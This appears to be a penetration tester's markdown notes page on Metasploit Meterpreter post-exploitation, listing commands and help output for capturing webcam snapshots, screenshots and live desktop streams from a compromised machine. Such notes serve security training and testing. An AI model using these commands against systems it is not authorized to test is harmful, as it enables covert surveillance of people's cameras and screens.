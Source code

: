 # 06 - WireTap

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

TODO: Fill this info

## 6.1 - Webcam

### 6.1.1 - Help Menu

```
meterpreter > webcam_snap -h
```

```
meterpreter > webcam_stream -h
```

- List webcams

`meterpreter > webcam_list`

- Taking snapshots from a webcam

`meterpreter > webcam_snap -i <device_ID> -p /path/to/file.png`

## 6.2 - Screenshots

- Take regular screenshots
 
```
meterpreter > screenshot -h
Usage: screenshot [options]

Grab a screenshot of the current interactive desktop.

OPTIONS:

    -h   Help Banner.
    -p   The JPEG image path (Default: 'jevmzGjE.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'false')

meterpreter > screenshot -p /home/user/pic.jpeg -q 100
```

## 6.2 - Screenshare

- You can interact the screenshare through the web browser.

```
meterpreter > screenshare -h
Usage: screenshare [options]

View the current interactive desktop in real time.

OPTIONS:

    -d   The stream duration in seconds (Default: 1800)
    -h   Help Banner.
    -q   The JPEG image quality (Default: '50')
    -s   The stream file path (Default: 'FteINQtk.jpeg')
    -t   The stream player path (Default: tFLOibzd.html)
    -v   Automatically view the stream (Default: 'true')

meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/user/CTslvACC.html
[*] Streaming...
```

`meterpreter > run post/multi/manage/screenshare`

---
## References

- [Rapid7: Metasploit Framework Screenshare Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/screenshare.md)